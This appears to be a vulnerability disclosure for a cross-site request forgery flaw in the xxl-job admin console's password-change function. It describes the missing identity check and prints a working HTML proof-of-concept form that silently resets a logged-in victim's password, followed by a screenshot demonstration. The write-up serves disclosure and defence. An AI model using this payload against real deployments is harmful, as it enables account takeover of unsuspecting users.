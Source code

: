 # Cross-site request forgery

In this platform, there is a password modification module. The user identity is not verified when the password is modified. You can directly modify it by entering a new password. As shown in the figure.

![image-20230131110423713](xxl-job-CSRF.assets/image-20230131110423713.png)

Check the source code and find that the identity authentication used by the system for password modification is based on the LOGIN in the request_ IDETITY_ KEY.

![image-20230131110905035](xxl-job-CSRF.assets/image-20230131110905035.png)

The poc is constructed as follows. As long as the cookie is stored locally, the password can be modified to "abc123456".

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://xx.xx.xx.xx:8080/xxl-job-admin/user/updatePwd" method="POST">
      <input type="hidden" name="password" value="abc123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

**Vulnerability demonstration**

Add a test1 user and log in.

![image-20230131111426358](xxl-job-CSRF.assets/image-20230131111426358.png)

Click the link to modify the password.

![image-20230131111510760](xxl-job-CSRF.assets/image-20230131111510760.png)

The password is modified successfully, and the response code is as follows:

![image-20230202153821816](xxl-job-CSRF.assets/image-20230202153821816.png)

To sum up, there is a CSRF client request forgery vulnerability in the system where the password is modified, and a poc is constructed. If the user clicks, the password can be modified.